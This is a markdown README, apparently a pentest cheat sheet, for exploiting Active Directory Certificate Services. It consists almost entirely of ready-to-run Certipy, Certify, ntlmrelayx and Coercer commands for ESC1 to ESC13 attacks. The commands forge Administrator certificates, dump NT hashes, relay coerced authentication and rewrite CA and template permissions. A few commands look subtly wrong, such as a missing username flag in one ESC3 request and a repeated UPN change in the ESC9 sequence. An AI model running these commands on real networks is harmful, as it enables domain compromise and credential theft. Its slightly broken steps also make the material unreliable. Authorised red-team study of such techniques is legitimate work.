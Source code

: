 ```markdown
# Active Directory Certificate Services (ADCS) Enumeration and Exploitation

This repository provides a comprehensive guide for enumerating and exploiting vulnerabilities in Active Directory Certificate Services (ADCS), leveraging tools such as Certipy, Certify, and CertExe. It covers a wide range of attacks and techniques, from finding vulnerable certificate templates to escalating privileges and authenticating with compromised certificates.

## Tools and Commands

### Enumeration
- **NetExec**
  - Find PKI Enrollment Services in Active Directory and Certificate Templates Names
  ```bash
  nxc ldap ip -u username -p password -M adcs
  ```

- **Certipy**
  - Search for vulnerable certificate templates
  ```bash
  certipy find -u username -p password -dc-ip ip -target dc -enabled -vulnerable -stdout
  ```

  - List CAs, servers, and search for vulnerable certificate templates
  ```bash
  certipy find -u username -p password -dc-ip ip -dns-tcp -ns ip -debug
  ```

- **Certify**
  - Search for vulnerable certificate templates
  ```bash
  Certify.exe find /vulnerable
  ```

### Attacks

#### ESC1: Create a New Machine Account
```bash
addcomputer.py domain/username:password -computer-name computer_name -computer-pass computer_password
```

- Use the ability to enroll as a normal user & provide a user-defined Subject Alternative Name (SAN)
  ```bash
  certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator -dc-ip ip
  ```
  Or
  ```bash
  certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip
  ```

- If you run Certipy and see Minimum RSA Key Length: 4096, provide `-key-size 4096` to Certipy:
  ```bash
  certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip -key-size 4096
  ```

- Authenticate with the certificate and get the NT hash of the Administrator:
  ```bash
  certipy auth -pfx administrator.pfx -domain domain -username username -dc-ip ip
  ```

#### ESC3: Request a Certificate
```bash
certipy req -username username -password password -ca ca -target domain -template template
```

- Request a certificate on behalf of another user:
  ```bash
  certipy req username -password password -ca ca -target domain -template User -on-behalf-of 'domain\administrator' -pfx pfx_file
  ```

- Authenticate as Administrator:
  ```bash
  certipy auth -pfx administrator.pfx -dc-ip ip
  ```

#### ESC4: Overwrite Configuration to Make It Vulnerable to ESC1
```bash
certipy template -username username -password password -template template -save-old -dc-ip ip
certipy req -u username -p password -dc-ip ip -ca ca -target dc -template template -upn administrator@domain
certipy auth -pfx administrator.pfx -domain domain -username administrator -dc-ip ip
```

#### ESC6
```bash
certipy req -username administrator@domain -password password -ca ca -target domain -template template -upn administrator@domain
```

#### ESC7: Enable SubCA Template on the CA
1. Grant Manage Certificates access right:
   ```bash
   certipy ca -ca ca -add-officer username -username username@domain -password password -dc-ip ip -dns-tcp -ns ip
   ```

2. Enable the SubCA template:
   ```bash
   certipy ca -ca ca -enable-template SubCA -username username@domain -password password -dc-ip ip -dns-tcp -ns ip
   ```

3. Issue the failed certificate request:
   ```bash
   certipy ca -ca ca -issue-request request_ID -username username@domain -password password
   ```

4. Retrieve the issued certificate:
   ```bash
   certipy req -username username@domain -password password -ca ca -target ip -retrieve request_ID
   ```

5. Authenticate with the certificate and get the NT hash of the Administrator:
   ```bash
   certipy auth -pfx pfx_file -domain domain -username username -dc-ip ip
   ```

#### ESC8: Exploit ADCS Server with Web Enrollment
```bash
ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server
coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue
certipy auth -pfx administrator.pfx
```

#### ESC9: Exploit ESC9 with Certipy Shadow
```bash
certipy shadow auto -username username@domain -hashes :hash -account target_username
certipy account update -username username@domain -hashes :hash -user target_username -upn administrator
certipy req -username target_username@domain -hashes :target_hash -ca ca -template template -target $DC_IP
certipy account update -username username@domain -hashes :hash -user target_username -upn administrator
certipy auth -pfx administrator.pfx -domain domain
```

#### ESC13: Advanced Certificate Requests
```bash
certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip -key-size 4096
python3 gettgtpkinit.py -cert-pfx pfx_file domain/username ccache_file -dc-ip ip -v
```

## Resources

- [ADCS Abuse - PPN](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse)
- [Hacktricks - ADCS Enumeration](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
- [SwisskyRepo - ADCS Certificate Services](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#adcs-enumeration)
- [Vulndev.io - ADCS Walkthrough](https://vulndev.io/2023/07/01/vl-intercept-walkthrough/)
- [Logan Goins - ADCS Attack](https://logan-goins.com/2024-05-04-ADCS/)
- [Bulletproof - ADCS ESC7 Attack](https://www.tarlogic.com/blog/ad-cs-esc7-attack/)
- [Black Hills InfoSec - ADCS Exploits](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/)
- [More Articles on ADCS Exploitation](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-2/)

## Tools

- [Certipy](https://github.com/ly4k/Certipy)
- [Certify](https://github.com/GhostPack/Certify)
```
